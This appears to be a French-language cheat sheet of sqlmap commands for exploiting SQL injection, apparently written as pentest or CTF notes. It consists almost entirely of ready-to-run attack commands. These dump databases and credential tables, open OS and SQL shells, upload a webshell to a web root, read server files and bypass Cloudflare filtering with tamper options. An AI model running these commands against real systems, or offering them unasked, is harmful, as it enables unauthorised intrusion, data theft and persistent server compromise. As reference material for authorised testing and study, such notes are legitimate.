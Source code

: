 # sqlmap

## pratique:

1. Faire un “copy to file” de la requete depuis burp ou Zap (avec headers+data)
2. sqlmap -r <fichier> -a --batch


## en GET

```sh
sqlmap -u "http://example.com/?a=1&b=2&c=3" -p "a,b"
```

## en POST

```sh
sqlmap -u "http://example.com/" --data "a=1&b=2&c=3" -p "a,b" --method POST
```  

## lister les tables:

```sh
sqlmap -u http://10.10.10.143/room.php?cod=1 -p "cod" --dbms=mysql --tables
```

## lister les tables d'une base

```sh
python sqlmap.py -u "http://www.site.com/section.php?id=51" --tables -D safecosmetics
```

## lister les colonne d'une tables:

```sh
python sqlmap.py -u "http://www.site.com/section.php?id=51" --columns -D safecosmetics -T users
```

## dumper une seule table:

```sh
sqlmap -u http://10.10.10.143/room.php?cod=1 -p "cod" --dbms=mysql -D 'mysql' -T 'user' --dump
```

## tout dumper

```sh
sqlmap -u http://10.10.10.10.... --dbms=mysql --dump-all
```

## dumper la base courante 

```sh
sqlmap -u http://10.10.10.10.... --dbms=mysql --dump
```

## from and by Burp 

```sh
--proxy=http://127.0.0.1:8080
```

## sqlmap crawl 

```sh
sqlmap -u http://10.10.10.10 --crawl=1
```

## sqlmap shell 

```sh
sqlmap -u http://10.10.10.10 --dbms=mysql --os-shell
```

## upload webshell

```sh
sudo sqlmap -r sqli_search_productName --file-write=webshell.php --file-dest=c:/inetpub/wwwroot/webshell.php --batch
```

## lire un fichier:

```sh
sqlmap -u http://127.0.0.1:1080/blog/single.php?id=* --level 5 --risk 3 --batch --file-read=/opt/lampp/htdocs/index.php
```

## checker les privs:

```sh
sqlmap -u 192.168.1.124/sqli/Less-1/?id=1 --privileges
```

## proxy

```sh
--temper pour le bypass de proxy
```

## Commande SQL:

```sh
sqlmap -u http://127.0.0.1:1080/blog/single.php?id=* --level 5 --risk 3 --batch --dbms=mysql --sql-shell

sql-shell> SELECT * FROM blogs
```

## sous windows:

1. télécharger le [projet](https://github.com/sqlmapproject/sqlmap) et lancer: python ./sqlmap.py

```powershell
python.exe .\sqlmap.py -r ..\VLA-auth-login.raw -a --batch --level 5 --risk 3
```

## cloudflare bypaass

```powershell
python.exe .\sqlmap.py -r .\question.raw --batch tamper="between,randomcase,space2comment" --random-agent
```

## Quick and Dirty A NE PAS FAIRE EN PROD

```Powershell
python.exe .\sqlmap.py -r ..\VLA-auth-login.raw -a --batch --level 5 --risk 3 --proxy=http://127.0.0.1:8080 --flush-session
```